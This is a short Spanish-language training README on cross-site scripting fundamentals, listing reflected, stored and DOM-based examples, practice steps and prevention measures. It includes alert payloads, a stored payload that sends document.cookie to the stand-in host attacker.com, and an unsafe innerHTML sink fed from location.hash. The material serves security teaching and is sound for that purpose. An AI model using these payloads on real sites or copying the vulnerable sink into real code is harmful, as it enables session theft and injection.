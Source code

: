
# Cross-Site Scripting (XSS) - Fundamentos

## 🎯 Objetivo
Comprender y practicar la identificación y explotación de vulnerabilidades XSS.

## 📚 Tipos de XSS

### 1. Reflected XSS
```html
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

### 2. Stored XSS
```html
<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script>
```

### 3. DOM-based XSS
```javascript
document.getElementById('output').innerHTML = location.hash.substring(1);
```

## 🧪 Práctica
1. Ejecuta `xss_trainer.py`
2. Prueba diferentes payloads
3. Analiza el contexto de inyección
4. Practica bypass de filtros

## 🛡️ Prevención
- Escapar outputs
- Content Security Policy (CSP)
- Validación de inputs
- HTTPOnly cookies
